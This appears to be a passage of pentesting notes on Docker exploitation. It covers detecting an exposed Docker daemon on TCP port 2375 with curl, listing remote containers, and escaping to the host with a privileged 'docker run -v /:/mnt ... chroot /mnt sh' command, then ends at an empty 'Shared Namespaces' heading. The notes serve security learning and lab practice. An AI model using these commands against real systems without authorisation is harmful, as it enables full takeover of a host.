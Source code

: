 Sometimes Docker can be set up to be used remotely, this way when enumerating a target with nmap we might find docker running on a target.  

- `curl http://TARGET-IP:2375/version` Check if we can interact with the Docker Daemon. If it works we get a result looking like this.  

![Curl](../.res/2023-07-22-18-19-33.png)

- `docker -H tcp://TARGET-IP:2375 ps` list the currently running container the H flag allows us to specify the IP of our remote target.

![list remotes running containers](../.res/2023-07-22-18-38-02.png)

## Escape via Exposed Docker Daemon

- Once we have a foothold we can try to escape Docker
- Look for exposed docker socket

![Docker](../.res/2023-07-23-15-17-26.png)  

- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` mount the host directory to a new container and then connect to that to reveal all the data on the host OS

> Note: If you do not receive any output after 30 seconds you will need to cancel the command by "Ctrl + C" and attempt to run it again.

![root](../.res/2023-07-23-15-20-47.png)  

## Shared Namespaces
